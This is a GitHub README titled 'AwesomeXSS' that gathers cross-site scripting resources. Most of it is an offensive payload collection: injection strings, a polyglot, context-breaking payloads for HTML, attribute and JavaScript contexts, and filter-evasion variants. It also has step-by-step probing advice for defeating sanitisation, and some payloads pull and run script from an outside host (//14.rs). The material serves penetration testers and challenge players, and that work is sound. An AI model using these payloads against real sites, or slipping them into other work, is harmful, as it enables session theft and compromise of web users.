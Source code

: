 # AwesomeXSS
Awesome XSS stuff.
Put this repo on watch. I will be updating it regularly.

### Awesome Books
- [XSS Cheat Sheet By Brute Logic](http://google.com)

### Awesome Websites
- [brutelogic.com.br](http://brutelogic.com.br)
- [respectxss.blogspot.in](https://respectxss.blogspot.in/)

### Awesome Challenges
- [Google's XSS Challenge](https://xss-game.appspot.com/)
- [prompt(1) to win](http://prompt.ml/)

### Awesome People
- [Rodolfo Assis](https://twitter.com/brutelogic)
- [Ashar Javed](https://twitter.com/soaj1664ashar)
- [Somdev Sangwan](https://twitter.com/s0md3v) because I made this repo :3

### Awesome Reads & Presentations
- [How I met your girlfriend](https://www.youtube.com/watch?v=fWk_rMQiDGc)
- [How to Find 1,352 Wordpress XSS Plugin Vulnerabilities in one hour](https://www.youtube.com/watch?v=9ADubsByGos)
- [XSS in Sarahah](http://www.shawarkhan.com/2017/08/sarahah-xss-exploitation-tool.html)
- [XSS in Facebook via PNG Content Type](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
- [Blind XSS](https://www.youtube.com/watch?v=OT0fJEtz7aE)
- [Copy Pest](https://www.slideshare.net/x00mario/copypest)

### Awesome Tools
- [XSStrike](http://xsstrike.tk/)
- [KNOXSS](http://knoxss.me/)
- [BeEF](https://github.com/beefproject/beef)
- [JShell](https://github.com/UltimateHackers/JShell)

### Awesome Payloads
```
<--`<img/src=` onerror=alert(1)> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg/x=">"/onload=confirm()//
<svg </onload ="1> (_=prompt,_(1)) "">
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<details ontoggle=confirm()>
<svg onload=write()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
```
Here's an interesting XSS polyglot by [Ahmed Elsobky](https://github.com/0xsobky/):
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### Awesome Tags & Event Handlers
- [105 Event Handlers with description](https://github.com/UltimateHackers/AwesomeXSS/blob/master/Database/event-handlers.md)
- [200 Event Handlers without description](http://pastebin.com/raw/WwcBmz5J)


Some HTML Tags that you will be using
```
img
svg
body
html
embed
script
object
details
isindex
iframe
audio
video
```

### Awesome Context Breaking

#### Simple Context
```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context
```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
```
#### JavaScript Context
```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Confirm Variants
Yep, confirm because alert is too mainstream.
```
confirm()
confirm``
(((confirm)))``
new class extends confirm``{}
```

### Awesome Exploits
A good compilation of advanced XSS exploits can be found [here](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Awesome Probing
If nothing of this works, take a look at **Awesome Bypassing** section

First of all, enter a non-malicious string like **d3v** and look at the source code to get an idea about number and contexts of refelections.
<br>Now for attribute context, check if double quotes (") are being filtered by entering **x"d3v**. If it gets altered to **x&amp;quot;d3v**, chances are that proper security measures are in place. If this happens, try doing the same for single quotes (') by entering **x'd3v**, if it gets altered to **x&amp;apos;**, you are doomed. The only thing you can try is encoding.<br>
If the quotes are not being filtered, you can simply try payloads from **Awesome Context Breaking** section.
<br>For javascript context, check which quotes are being used for example if they are doing
```
variable = 'value' or variable = "value"
```
Now lets say single quotes (') are in use, in that case enter **x'd3v**. If it gets altered to **x\\'d3v**, try escaping the backslash (\) by adding a backslash to your probe i.e. **x\\'d3v**. If it works use the following payload:
```
\'-alert()-\'
```
But if it gets altered to **x\\'d3v**, the only thing you can try is closing the script tag itself by using
```
</script><svg onload=alert()>
```
For simple HTML context, the probe is **x&gt;d3v**. If it gets altered to **x&amp;gt;d3v**, proper sanitization is in place. If it gets reflected as it as, you can enter a dummy tag to check for potenial filters. The dummy tag I like to use is **x&lt;xxx&gt;**. If it gets stripped or altered in any way, it means the filter is looking for a pair of **<** and **>**. It can simply bypassed using
```
<svg onload=alert()//
```
or this (it will not work in all cases)
```
<svg onload=alert()
```
If the your dummy tags lands in the source code as it is, go for any of these payloads
```
<svg onload=alert()>
<embed src=//14.rs>
<details open ontoggle=alert()>
```

### Awesome Bypassing

**Note:** None of these payloads use single (') or double quotes (").

- Without event handlers
```
<object data=javascript:confirm()>
<script src=//14.rs>
<script>confirm()</script>
```
- Without space
```
<svg/onload=confirm()>
```
- Without slash (/)
```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```
- Without equal sign (=)
```
<script>confirm()</script>
```
- Without closing angular bracket (>)
```
<svg onload=confirm()//
```
- Without alert, confirm, prompt
```
<script src=//14.rs></script>
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
```
- Without a Valid HTML tag
```
<x onclick=confirm()>click here
```

### Awesome Tips & Tricks
- http(s):// can be shortened to // or /\.
- **document.cookie** can be shortened to **cookie**. It applies to other DOM objects as well.
- alert and other pop-up functions don't need a value, so stop doing **alert('XSS')** and start doing **alert()**
- You can use **//** to close a tag instead of **>**.
- I have found that **confirm** is the least detected pop-up function so stop using **alert**.
- Quotes around attribute value aren't neccessary as long as it doesn't contain spaces. You can use **&lt;script src=//14.rs&gt;** instead of **&lt;script src="//14.rs"&glt;**
- The shortest independent "XSS" payload is **&lt;embed src=//14.rs&gt;** (19 chars)

### Awesome Credits
All the payloads are crafted by me unless specified.
Thanks to my big brother [Rodolfo Assis](https://twitter.com/brutelogic) whose writings inspired me to become an XSSLord.

